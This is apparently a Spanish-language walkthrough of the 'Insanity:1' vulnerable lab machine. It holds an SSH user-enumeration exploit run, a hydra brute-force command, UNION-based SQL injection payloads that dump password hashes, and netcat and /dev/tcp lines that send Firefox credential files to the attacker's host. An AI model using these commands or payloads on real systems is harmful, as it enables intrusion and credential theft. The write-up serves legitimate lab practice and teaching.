# Insanity:1

192.168.1.177



Sid
Trusty

SSH < a versión 7.7 -> existe vulnerabilidad para enumerar usuarios
- EXPLOIT
```bash
python2.7 45939.py 192.168.1.177 otis
```

Moverse el script .py al directorio actual y tener instalado pip2
Instalar pip2 buscando en google "ubuntu install pip2"
Hay que comprobar si el exploit funciona con la maquina probando con el usuario root y roos por ejemplo, si dice que roos es válido es que hay veces que no funciona aunque la versión de OpenSSH sea < 7.7

Tenemos acceso al servidor ftp por login anónimo pero no parece haber ningunarchivo



Intentamos subir un archivo con
```bash
put example.txt
```

## Permision denied

```bash
nmap --script http-enum -p80 192.168.1.177
```



En *Get Estarted* vemos un login (http://192.168.1.177/monitoring/)
Con Gobuster encontramos algunos directorios que pueden ser de interés



/config.php aparentemente está vacío

En el login tampoco encuentro nada con SQLi ni XSS.

Voy a intentar usar el método TRACE que se reporta en nmap -> **NADA**

en /news encuentro un posible usuario **otis**



Y un mail hello@insanityhosting.vm

Encontramos un CMS llamado *Bludit*
Además en /webmail encuentro un portal de correo llamado SquirrelMail

Volviendo a escanear con gobuster el directorio /news



Encontramos un panel de login en /news/admin para logear hacia bludit

Probamos fuerza bruta  en SquirrelMail:
```bash
hydra -l otis -P /usr/share/wordlists/rockyou.txt "http-post-form://www.insanityhosting.vm/webmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:Unknown user or password incorrect."
```



**otis:123456**

Accedemos a la bandeja de entrada aunque no hay información de correos entrantes, borrados o enviados



Probamos más logins con las mismas credenciales



Entramos a /192.168.1.177 accediento a un dashboard de administración de servidores

Vemos que si levantamos un servidor con nuestra ip, y nos ponemos a la escucha de trazas ICMP, se nos envía un ping
```bash
sudo tcpdump -i eth0 icmp -n
```





Nos llega correo cuando probamos algo distinto a una ip en el campo de IP Address



Vemos que la query tiene 4 campos -> ID, Host, Date Time y Status

Probamos SQLi
`test' or 1=1-- -` -> No envía correo y resetea el campo Name
`test" or 1=1-- -` -> Nos manda muchísima información, de más de 1000 líneas, por lo que se acontece sqli



union

Empezamos a enumerar datos
- `test" union select 1,2,3,4-- -` ->



- `test" union select group_concat(schema_name),2,3,4 from information_schema.schemata-- -` ->



*information_schema,monitoring,mysql,performance_schema*
- `test" union select group_concat(table_name),2,3,4 from information_schema.tables where table_schema = 'monitoring'-- -`  ->



*hosts,log,users*
- `test" union select group_concat(column_name),2,3,4 from information_schema.columns where table_schema = 'monitoring' and table_name='users'-- -`



*id,username,password,email*
- `test" union select group_concat(username,0x3a,password),2,3,4 from users-- -`



*admin:$2y$12$huPSQmbcMvgHDkWIMnk9t.1cLoBWue3dtHf9E5cKUNcfKTOOp8cma,nicholas:$2y$12$4R6JiYMbJ7NKnuQEoQW4ruIcuRJtDRukH.Tvx52RkUfx5eloIw7Qe,otis:$2y$12$./XCeHl0/TCPW5zN/E9w0ecUUKbDomwjQ0yZqGz5tgASgZg6SIHFW*

Metemos la información en un archivo para intentar crackear las contraseñas
```bash
vim data
```

Pegamos la info y vamos a eliminar los "," para sustituirlos por saltos de línea "\r" y de esa forma ordenar las credenciales, además usaremos "/g" para que sustituya todos los match que encuentre, no solo el primero
`Pulsar tecla ESCAPE y poner :`
```bash
%s/,/\r/g
```



Intentamos crackear las contraseñas pero son robustas

Extraeremos información de la base de datos mysql en lugar de monitoring
- `test" union select group_concat(table_name),2,3,4 from information_schema.tables where table_schema = 'mysql'-- -`*columns_priv,db,event,func,general_log,help_category,help_keyword,help_relation,help_topic,host,ndb_binlog_index,plugin,proc,procs_priv,proxies_priv,servers,slow_log,tables_priv,time_zone,time_zone_leap_second,time_zone_name,time_zone_transition,time_zone_transition_type,**user***

- `test" union select group_concat(column_name),2,3,4 from information_schema.columns where table_schema = 'mysql' and table_name='user'-- -`
Hay muchas columnas pero nos interesarán *User,Password* y una columna que no se suele usar pero que a partir de cierta versión de sql se guardan credenciales es **authentication_string**

- `test" union select group_concat(User,0x3a,Password,0x3a,authentication_string),2,3,4 from mysql.user-- -`
root:\*CDA244FF510B063DA17DFF84FF39BA0849F7920F:,root:*CDA244FF510B063DA17DFF84FF39BA0849F7920F:,root:*CDA244FF510B063DA17DFF84FF39BA0849F7920F:,root:*CDA244FF510B063DA17DFF84FF39BA0849F7920F:,::,::,elliot::*5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9

Volvemos a meter la data en un archivo



La paswd de elliot es crackeable


**elliot:elliot123**
Accedemos por ssh a elliot
**elliot**

## Escalada

en /home/elliot vemos un directorio *.mozilla* que puede guardar información de la sesión del navegador, podemos intentar dumpearlas
- Se tiene que cumplir que haya una sesión -> /.mozilla/firefox/esmhp32w.default-default



Hay dos archivos que pueden contener información de credenciales ->
- *logins.json* tiene información de contraseñas y usuarios encriptada
- key4.db -> es la clave para descifrar el contenido

Existe una herramienta -> *firepwd* -> github clonar repo


Para instalar esta herramienta, pip3 nos dará error y tendremos que crear un entorno virtual (comandos buscados en stackoverflow)
```bash
python3 -m venv .venv
source .venv/bin/activate
python3 -m pip install -r requirements.txt
```

Ahora que tenemos la herramienta, necesitaremos pasar los archivos desde la MV a nuestro K
En K
```bash
nc -nlvp 443 > key4.db
```

En MV
```bash
cat key4.db > /dev/tcp/192.168.1.249/443
```

En K
```bash
nc -nlvp 443 > logins.json
```

En MV
```bash
cat logins.json > /dev/tcp/192.168.1.249/443
```

Estos archivos tienen que estar en el mismo directorio que firepwd.py

```bash
python firepwd.py
```



**root:S8Y389KJqWpJuSwFqFZHwfZ3GnegUa**

```bash
su root
```

**root**


